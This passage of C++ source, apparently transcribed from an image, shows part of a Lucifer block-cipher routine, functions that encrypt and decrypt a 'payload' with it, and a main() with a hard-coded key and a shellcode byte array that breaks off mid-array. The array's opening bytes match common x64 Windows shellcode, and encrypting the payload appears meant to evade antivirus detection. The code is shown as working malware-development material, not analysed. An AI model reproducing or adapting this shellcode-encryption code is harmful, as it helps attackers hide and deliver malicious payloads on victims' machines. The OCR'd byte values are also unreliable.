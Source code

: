 ```cpp
      lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
      step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
      m2[6]);
      lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
      step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
      m2[7]);

      if (step < step_count - 1 || decrypt) {
        key_byte_idx = (key_byte_idx + 1) % round_count;
      }
    }

    // swap halves
    for (int i = 0; i < block_size / 2; ++i) {
      swap(&lower_half[i], &upper_half[i]);
    }
  }

  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
    swap(&block[i], &block[i + block_size / 2]);
  }
}

// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }
}

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }
}

int main() {
  unsigned char key[16] = "meowmeowbowwoow"; // example 128-bit key
  unsigned char my_payload[] = {
    0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
```
